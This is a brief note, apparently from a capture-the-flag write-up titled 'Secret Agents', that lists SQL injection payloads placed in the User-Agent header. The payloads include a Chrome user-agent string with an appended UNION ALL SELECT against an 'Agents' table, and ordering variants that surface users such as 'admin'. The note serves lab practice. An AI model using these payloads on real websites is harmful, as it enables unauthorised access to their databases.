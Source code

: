 
# Secret Agents

### SQL Injection Payloads tried for UA(user-agents)
    * "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36' UNION ALL Select * from Agents ORDER BY 1 LIMIT 1 -- - "
    * UNION ALL Select * from Agents ORDER BY UA ASC - user GRU
    * UNION ALL Select * from Agents ORDER BY UA DESC - user admin
    * UNION ALL Select * from Agents ORDER BY 1 LIMIT 1 -- -